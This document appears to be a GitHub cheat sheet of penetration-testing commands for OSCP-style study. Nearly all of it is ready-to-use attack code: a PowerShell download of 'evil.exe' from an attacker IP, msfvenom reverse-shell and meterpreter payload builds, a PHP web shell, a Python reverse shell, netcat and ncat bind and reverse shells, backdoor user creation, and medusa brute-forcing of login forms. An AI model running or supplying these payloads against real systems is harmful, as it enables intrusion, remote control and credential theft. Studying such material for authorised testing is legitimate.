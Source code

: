 # Cybersecurity Cheatsheats
Collection of cybersecurity notes and cheat sheets.  If I pulled content from some else’s cheat sheet or site it will be listed reference section.

## User and group managment

Windows
```shell
net user bob bob123 /ADD
net localgroup "Remote Desktop Users" bob /ADD
net localgroup "Users" bob /ADD
```
## Starting services
linux
```shell
systemctl start ssh
systemctl start apache2
service apache2 start
```



## Enable/Disable service to start on boot
linux
```shell
systemctl enable apache2
systemctl disable apache2
```
## Download files

Powershell
```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://[your_ip_address]/evil.exe','evil.exe')
```

## msfvenom examples
```shell
msfvenom -p windows/shell_reverse_tcp  HOST=[your_ip_address] LPORT=[Port] -f asp > shell.asp
```

```shell
msfvenom -p windows/meterpreter/reverse_tcp [your_ip_address] LPORT=[Port] -f aspx > shell.aspx
```

```shell
msfvenom -p linux/x86/shell\_bind\_tcp LPORT=[port]-f c -b "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai
```

```shell
msfvenom -p windows/shell\_reverse\_tcp LHOST=<IP Address> LPORT=[port]-b "\\x00\\x0a\\x0d" -f c -a x86 --platform windows -e x86/shikata\_ga\_nai
```

## shells

PHP

```php
<<?php echo shell_exec($_GET['cmd']);?>
```

Python

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP Address>",443))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)p=subprocess.call(["/bin/sh","-i"])
```

### Netcat

-   Client nc –nv <Your IP Address> <port>
-   Server nc –nlvp <port>

### Ncat

-   Bind Shell: ncat –exec cmd.exe --allow <your_ip_address>-vnl <port>  --ssl
-   Client: ncat –v <your_ip_address> <port> --ssl
  
## Ncat 
-   TCP Port scan: nc –nvv –w 1 -z <your_ip_address> 3000-4000
-   UDP port scan: nc –nvv -u -z <your_ip_address> 3000-4000


medusa example
```shell
medusa \
  -h [target_ip] \
  -u offsec \
  -P nmap.lst \
  -M web-form \
  -m FORM:"login.php" \
  -m DENY-SIGNAL:"Wrong Username or Password" \
  -m FORM-DATA:"post?user=&pass=&Login=Login"


  medusa \
-h [target_ip]\
-u admin \
-P /data/dict/dict.txt \
-M web-form \
-m FORM:"admin/test.php" \
-m DENY-SIGNAL:"ACCESS DENIED" \
-m FORM-DATA:"post?u=&p=&Login=Login"
```


## References
* http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/?redirect
* http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* http://pentestmonkey.net/tools/audit/unix-privesc-check
* http://pentestmonkey.net/tools/web-shells/php-reverse-shell
* http://resources.infosecinstitute.com/privilege-escalation-linux-live-examples/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-enumerating-services-part-2/
* http://www.computersecurity.org/computer-cyber-security-certifications-education-college-courses/cheat-sheet-how-to-pass-the-oscp-offensive-security-certified-professional-exam-step-by-step-guide-sqli-xss-web-app-attacks-part-5/
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* https://blog.sucuri.net/2013/05/from-a-site-compromise-to-full-root-access-local-root-exploits-part-ii.html
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackingandsecurity.blogspot.com/2016/04/oscp-related-notes.html?m=1
* https://hackmag.com/security/reach-the-root/
* https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
* https://highon.coffee/blog/tr0ll-1-walkthrough/
* https://jordanpotti.com/oscp/
* https://jordanpotti.com/oscp/
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://security.stackexchange.com/questions/68442/escalating-from-apache-shell-to-root

